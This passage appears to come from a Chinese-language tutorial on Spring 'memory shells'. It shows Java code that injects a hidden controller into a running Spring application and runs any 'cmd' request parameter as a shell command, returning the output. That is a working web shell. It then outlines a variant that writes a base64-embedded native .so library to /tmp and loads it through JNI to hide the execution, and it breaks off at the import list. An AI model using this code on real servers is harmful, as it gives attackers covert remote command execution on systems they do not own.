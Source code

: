 ```java
            RequestMappingInfo.BuilderConfiguration option = new RequestMappingInfo.BuilderConfiguration();
            option.setPatternParser(new PathPatternParser());

            RequestMappingInfo info = RequestMappingInfo.paths(inject_uri).options(option).build();

            // 将该controller注册到Spring容器
            mappingHandlerMapping.registerMapping(info, evilClass.newInstance(), method2);
            System.out.println("Controller Injected");
        }catch (Exception e){
            e.printStackTrace();
        }
    }


    @ResponseBody
    public void index() throws IOException {
        // 获取请求
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
        // 获取请求的参数cmd并执行
        // 类似于PHP的system($_GET["cmd"])
        try{
            String cmd = request.getParameter("cmd");
            if (cmd != null && cmd.length() > 0) {
                String osTyp = System.getProperty("os.name");
                InputStream in = Runtime.getRuntime().exec((osTyp != null && osTyp.toLowerCase().contains("win")) ? new String[]{"cmd.exe", "/c", request.getParameter("cmd")}:new String[]{"sh", "-c", request.getParameter("cmd")}).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
            }
            return;
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```
在其基础上新建一个 SpringControllerMemshell 类，进行如下的修改：
1. 添加一个 native 方法
2. 将原有的 index 方法改为执行 doExec 方法。
3. 添加一个成员变量 jniCodes，用于存放 base64 编码后的 so 文件内容。
4. 添加一个 getJNILibFile 方法，用于在 /tmp 目录下写入 so 文件，并返回文件路径。
5. 在 static 代码块中使用 System.load 加载 so 文件。

文件内容修改如下：
```java
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import org.springframework.web.util.pattern.PathPatternParser;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
```